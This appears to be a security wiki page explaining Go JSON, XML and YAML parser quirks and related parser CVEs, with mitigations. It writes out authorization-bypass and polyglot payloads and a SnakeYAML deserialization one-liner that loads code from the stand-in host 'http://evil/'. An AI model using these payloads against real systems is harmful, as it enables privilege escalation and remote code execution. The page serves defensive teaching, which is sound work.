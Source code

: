 # JSON, XML & Yaml Hacking & Issues

## Go JSON Decoder

The following issues were detected in the Go JSON although they could be present in other languages as well. These issues were published in [**this blog post**](https://blog.trailofbits.com/2025/06/17/unexpected-security-footguns-in-gos-parsers/).

Go’s JSON, XML, and YAML parsers have a long trail of inconsistencies and insecure defaults that can be abused to **bypass authentication**, **escalate privileges**, or **exfiltrate sensitive data**.

### (Un)Marshaling Unexpected Data

The goal is to exploit structs that allow an attacker to read/write sensitive fields (e.g., `IsAdmin`, `Password`).

- Example Struct:
```go
type User struct {
    Username string `json:"username,omitempty"`
    Password string `json:"password,omitempty"`
    IsAdmin  bool   `json:"-"`
}
```

- Common Vulnerabilities

1. **Missing tag** (no tag = field is still parsed by default):
```go
type User struct {
    Username string
}
```

Payload:
```json
{"Username": "admin"}
```

2. **Incorrect use of `-`**:
```go
type User struct {
    IsAdmin bool `json:"-,omitempty"` // ❌ wrong
}
```

Payload:
```json
{"-": true}
```

✔️ Proper way to block field from being (un)marshaled:
```go
type User struct {
    IsAdmin bool `json:"-"`
}
```

### Parser Differentials

The goal is to bypass authorization by exploiting how different parsers interpret the same payload differently like in:
- CVE-2017-12635: Apache CouchDB bypass via duplicate keys
- 2022: Zoom 0-click RCE via XML parser inconsistency
- GitLab 2025 SAML bypass via XML quirks

**1. Duplicate Fields:**
Go's `encoding/json` takes the **last** field.

```go
json.Unmarshal([]byte(`{"action":"UserAction", "action":"AdminAction"}`), &req)
fmt.Println(req.Action) // AdminAction
```

Other parsers (e.g., Java’s Jackson) may take the **first**.

**2. Case Insensitivity:**
Go is case-insensitive:
```go
json.Unmarshal([]byte(`{"AcTiOn":"AdminAction"}`), &req)
// matches `Action` field
```

Even Unicode tricks work:
```go
json.Unmarshal([]byte(`{"aKtionſ": "bypass"}`), &req)
```

**3. Cross-service mismatch:**
Imagine:
- Proxy written in Go
- AuthZ service written in Python

Attacker sends:
```json
{
  "action": "UserAction",
  "AcTiOn": "AdminAction"
}
```

- Python sees `UserAction`, allows it
- Go sees `AdminAction`, executes it

### Data Format Confusion (Polyglots)

The goal is to exploit systems that mix formats (JSON/XML/YAML) or fail open on parser errors like:
- **CVE-2020-16250**: HashiCorp Vault parsed JSON with an XML parser after STS returned JSON instead of XML.

Attacker controls:
- The `Accept: application/json` header
- Partial control of JSON body

Go’s XML parser parsed it **anyway** and trusted the injected identity.

- Crafted payload:
```json
{
  "action": "Action_1",
  "AcTiOn": "Action_2",
  "ignored": "<?xml version=\"1.0\"?><Action>Action_3</Action>"
}
```

Result:
- **Go JSON** parser: `Action_2` (case-insensitive + last wins)
- **YAML** parser: `Action_1` (case-sensitive)
- **XML** parser: parses `"Action_3"` inside the string

---

## Notable Parser Vulnerabilities (2023-2025)

> The following publicly-exploitable issues show that insecure parsing is a multi-language problem — not just a Go problem.

### SnakeYAML Deserialization RCE (CVE-2022-1471)

* Affects: `org.yaml:snakeyaml` < **2.0** (used by Spring-Boot, Jenkins, etc.).
* Root cause: `new Constructor()` deserializes **arbitrary Java classes**, allowing gadget chains that culminate in remote-code execution.
* One-liner PoC (will open the calculator on vulnerable host):
```yaml
!!javax.script.ScriptEngineManager [ !!java.net.URLClassLoader [[ !!java.net.URL ["http://evil/"] ] ] ]
```
* Fix / Mitigation:
  1. **Upgrade to ≥2.0** (uses `SafeLoader` by default).
  2. On older versions, explicitly use `new Yaml(new SafeConstructor())`. 

### libyaml Double-Free (CVE-2024-35325)

* Affects: `libyaml` ≤0.2.5 (C library leveraged by many language bindings).
* Issue: Calling `yaml_event_delete()` twice leads to a double-free that attackers can turn into DoS or, in some scenarios, heap exploitation.
* Status: Upstream rejected as “API misuse”, but Linux distributions shipped patched **0.2.6** that null-frees the pointer defensively. 

### RapidJSON Integer (Under|Over)-flow (CVE-2024-38517 / CVE-2024-39684)

* Affects: Tencent **RapidJSON** before commit `8269bc2` (<1.1.0-patch-22).
* Bug: In `GenericReader::ParseNumber()` unchecked arithmetic lets attackers craft huge numeric literals that wrap around and corrupt the heap — ultimately enabling privilege-escalation when the resulting object graph is used for authorization decisions. 

---

### 🔐 Mitigations (Updated)

| Risk                                | Fix / Recommendation                                      |
|-------------------------------------|------------------------------------------------------------|
| Unknown fields (JSON)               | `decoder.DisallowUnknownFields()`                          |
| Duplicate fields (JSON)             | ❌ No fix in stdlib — validate with [`jsoncheck`](https://github.com/dvsekhvalnov/johnny-five) |
| Case-insensitive match (Go)         | ❌ No fix — validate struct tags + pre-canonicalize input   |
| XML garbage data / XXE              | Use a hardened parser (`encoding/xml` + `DisallowDTD`)     |
| YAML unknown keys                   | `yaml.KnownFields(true)`                                   |
| **Unsafe YAML deserialization**     | Use SafeConstructor / upgrade to SnakeYAML ≥2.0            |
| libyaml ≤0.2.5 double-free          | Upgrade to **0.2.6** or distro-patched release            |
| RapidJSON <patched commit           | Compile against latest RapidJSON (≥July 2024)              |

## References

- Baeldung – “Resolving CVE-2022-1471 With SnakeYAML 2.0” 
- Ubuntu Security Tracker – CVE-2024-35325 (libyaml) 

